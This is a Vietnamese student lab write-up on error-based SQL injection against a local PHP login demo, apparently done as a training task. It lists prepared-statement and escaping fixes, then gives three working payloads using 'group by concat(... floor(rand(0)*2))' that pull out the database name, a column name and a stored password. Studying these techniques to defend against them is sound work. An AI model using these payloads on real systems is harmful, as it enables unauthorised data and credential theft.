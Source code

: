 # Link demo : https://github.com/l3mnt2010/task2_KCSC/tree/main/demo/errorBase
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.

Khi em vào giao diện sẽ như thế này


![Alt text](./imagesBooleanBase/image.png)

- Đây là đoạn code dính lỗi sqli:

![Alt text](./imagesErrorBase/image-1.png)

- Em thử dùng lỗi error base để kiểm tra: em sử dụng payload :"' or 1=1 group by concat(database(),'-', floor(rand(0)*2)) having min(0)-- -" trong cheat seet sqli

- or 1=1: Điều kiện luôn đúng, mục đích là để thêm điều kiện vào câu truy vấn.
- group by concat(database(),'-', floor(rand(0)*2)): Group các kết quả theo giá trị của chuỗi được tạo ra bằng cách ghép nối tên cơ sở dữ liệu, dấu "-", và một giá trị ngẫu nhiên (0 hoặc 1).
- having min(0): Điều kiện HAVING luôn đúng, vì giá trị nhỏ nhất trong trường min(0) là 0.

+ Em nhận được kết quả
![Alt text](./imagesErrorBase/image-2.png)

- Em có thể thấy được là kết quả trả ra lỗi của database task2_kcsc bảng users và có 1 cột là id
- Em tiếp tục tìm các cột khác trong bảng users
Payload : ' or 1=1 group by concat((select column_name from information_schema.columns where table_name='users' limit 2,1),'-',floor(rand(0)*2)) having min(0)-- -
![Alt text](./imagesErrorBase/image-3.png)
- sau đó em dùng : ' or 1=1 group by concat((select password from users limit 2,1),'-',floor(rand(0)*2)) having min(0)-- -
-> Em nhận được mật khẩu là hihi123



